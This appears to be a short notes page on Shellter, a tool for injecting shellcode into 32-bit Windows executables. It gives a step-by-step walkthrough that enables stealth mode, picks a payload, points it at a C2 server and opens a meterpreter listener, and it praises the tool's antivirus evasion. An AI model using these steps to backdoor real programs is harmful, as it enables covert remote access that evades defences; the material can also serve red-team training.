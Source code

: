 ```yaml
---
title: "Shellter"
description: "Dynamic shellcode infection"
lead: ""
date: 2020-10-13T15:21:01+02:00
lastmod: 2020-10-13T15:21:01+02:00
draft: false
images: []
menu: 
  tools:
    parent: "attacker_tools"
weight: 20
toc: true
---
```


Shellter[^1] is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).
The shellcode can be something yours or something generated through a framework, such as Metasploit.

Even the default options offer impressive AV evasion capabilities.

## Installation
Download from: https://www.shellterproject.com/download/

```bash
#start shellter
shellter 

#Choose Operation Mode
A

#PE Target 
/home/kali/...

#Enable Stealh Mode?
Y

#Use a listed pazload or custom:
L

#Select payload by index: (select preferred)
1 

#SET LHOST -> your c2 server ip
X.X.X.X 

#SET LPORT -> port your c2 server listen to
```

The provided binary will be replaced with the modified one. 
Next step is to open a meterpreter listener with the above parameters.


[^1]: [Shellter](https://www.shellterproject.com/introducing-shellter/)